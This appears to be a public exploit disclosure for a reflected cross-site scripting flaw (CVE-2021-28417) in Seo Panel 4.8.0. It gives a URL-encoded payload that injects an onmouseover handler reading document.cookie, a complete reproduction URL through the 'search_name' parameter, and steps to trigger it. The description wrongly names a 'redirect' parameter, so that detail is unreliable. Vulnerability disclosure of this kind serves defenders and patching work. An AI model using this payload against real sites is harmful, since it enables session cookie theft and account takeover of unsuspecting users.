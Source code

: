 XSS
---

    # Exploit Title: Seo Panel 4.8.0 - 'search_name' Reflected XSS
    # Date: 21-03-2021
    # Exploit Author: Piyush Patil
    # Vendor Homepage: https://www.seopanel.org/
    # Software Link:  https://github.com/seopanel/Seo-Panel/releases/tag/4.8.0
    # Version: Seo Panel 4.8.0
    # Tested on: Windows 10 and Kali
    # CVE : CVE-2021-28417


    -Description:
     A cross-site scripting (XSS) issue in the SEO admin login panel version 4.8.0 allows remote attackers to inject JavaScript via the "redirect" parameter.

    -Payload used:
    x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22

    -Steps to reproduce:
    1- Login to SEO admin panel
    2- Add below line at the end:
    http://localhost/archive.php?from_time=2021-03-08&order_col=name&order_val=DESC&report_type=website-search-reports&search_name=x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22&sec=viewWebsiteSearchSummary&to_time=2021-03-09&website_id=http%3a%2f%2fwww.example.com
    3- Hover your mouse near to "CTR" field